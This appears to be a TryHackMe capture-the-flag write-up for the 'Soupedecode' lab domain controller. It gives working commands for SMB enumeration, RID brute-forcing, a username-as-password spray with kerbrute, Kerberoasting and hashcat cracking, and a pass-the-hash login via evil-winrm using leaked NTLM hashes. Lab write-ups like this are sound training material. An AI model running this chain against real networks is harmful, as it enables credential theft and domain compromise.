

THM Soupedecode
Nmap
First we perform a port scan against the target
nmap -T4 -A -Pn 10.66.165.14Output
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2026-10-04 02:33:07Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: SOUPEDECODE.LOCAL0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: SOUPEDECODE.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
3389/tcp open ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC01.SOUPEDECODE.LOCAL
| Not valid before: 2026-10-03T02:29:03
|_Not valid after: 2027-04-04T02:29:03
| rdp-ntlm-info:
| Target_Name: SOUPEDECODE
| NetBIOS_Domain_Name: SOUPEDECODE
| NetBIOS_Computer_Name: DC01
| DNS_Domain_Name: SOUPEDECODE.LOCAL
| DNS_Computer_Name: DC01.SOUPEDECODE.LOCAL
| Product_Version: 10.0.20348
|_ System_Time: 2026-10-04T02:33:18+00:00
|_ssl-date: 2026-10-04T02:33:58+00:00; -1s from scanner time.
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2022
Aggressive OS guesses: Microsoft Windows Server 2022 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 3 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
Based on this output, this is a domain controller in the SOUPEDECODE.LOCAL domain.
Shares Enumeration
Lets see what shares are available
nxc smb DC01.SOUPEDECODE.LOCAL -u guest -p "" --sharesOutput


We have two non-standard shares, backup and Users. but we have no permissions over them.
User Enumeration
Since we can authenticate to the the domain controller using guest account and blank password.

We can use this to perform rid bruteforce and enumerate users.
RID Bruteforce
We perform some text processing on the output to extract just the username and save it to a file named usernames.txt using the command below
nxc smb dc01.soupedecode.local -u guest -p '' --rid-brute | grep -i "SidTypeUser" | awk -F '\\' '{print $NF}' | awk '{print $1}' > usernames.txtWordlist For Password Bruteforce
There were a lot of users so i didn’t know who to target so before i started password spraying with some common passwords, I made a username:password pairs list using the username as the password.
I used this command:
awk '{print $1 ":" $1}' usernames.txt > user_pass_pairs.txtPerforming Bruteforce
Using the bruteforce command with kerbrute
./kerbrute bruteforce -d soupedecode.local --dc dc01.soupedecode.local user_pass_pairs.txtOutput

We got a hit with the following creds:
ybob317@soupedecode.local:ybob317Validating creds with nxc
nxc smb DC01.SOUPEDECODE.LOCAL -u ybob317 -p ybob317
SMB 10.66.165.145 445 DC01 [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB 10.66.165.145 445 DC01 [+] SOUPEDECODE.LOCAL\ybob317:ybob317Enumeration as ybob317
Firstly lets see what permissions we have over the shares with this user.
nxc smb DC01.SOUPEDECODE.LOCAL -u ybob317 -p ybob317 --sharesOutput

Now we can read the Users share. using the command below:
smbclient -U ybob317 //dc01.soupedecode.local/UsersI checked the share nothing to really follow up on. although the user flag was in the Desktop directory inside the ybob317 directory.
Kerberoasting
Now that we have a domain user credentials, we can perform kerberoasting.
Lets get the tickets, save them and crack them.
Requesting all TGS Tickets
Lets get all the tickets and save them to a file named all_tgs .
impacket-GetUserSPNs -dc-ip 10.67.159.245 SOUPEDECODE.LOCAL/ybob317 -request -outputfile all_tgsCracking the Tickets Offline
hashcat -m 13100 all_tgs /usr/share/wordlists/rockyou.txtOutput

We successfully cracked the password for the file_svc account.
Validating creds with nxc
nxc smb DC01.SOUPEDECODE.LOCAL -u file_svc -p 'Password123!!'
SMB 10.67.159.245 445 DC01 [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB 10.67.159.245 445 DC01 [+] SOUPEDECODE.LOCAL\file_svc:Password123!!Enumerating as file_svc
Check the account’s permissions over the shares
nxc smb DC01.SOUPEDECODE.LOCAL -u file_svc -p 'Password123!!' --sharesShare Permissions Output

Now we can access the backup share.
Lets check the share using the command below
smbclient -U file_svc //dc01.soupedecode.local/backupOutput

I transferred this file to my machine and opened it.
Output

Looks like the credentials for machine accounts, accounts and their NTLM hashes.
After testing with all the accounts, we got a hit with the FileServer$ account.
nxc smb DC01.SOUPEDECODE.LOCAL -u 'FileServer$' -H e41da7e79a4c76dbd9cf79d1cb325559
SMB 10.67.159.245 445 DC01 [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB 10.67.159.245 445 DC01 [+] SOUPEDECODE.LOCAL\FileServer$:e41da7e79a4c76dbd9cf79d1cb325559 (Pwn3d!)It also looks like we are local admin on the Domain Controller host.
Logging in as FileServer$
Lets perform pash the hash and log in using FileServer$ account creds.
I’m going to use evil-winrm for this with the command below
evil-winrm -i DC01.SOUPEDECODE.LOCAL -u 'FileServer$' -H e41da7e79a4c76dbd9cf79d1cb325559Output

We successfully logged in.
Root Flag
We will then find the root flag in the Desktop directory for the Administrator user.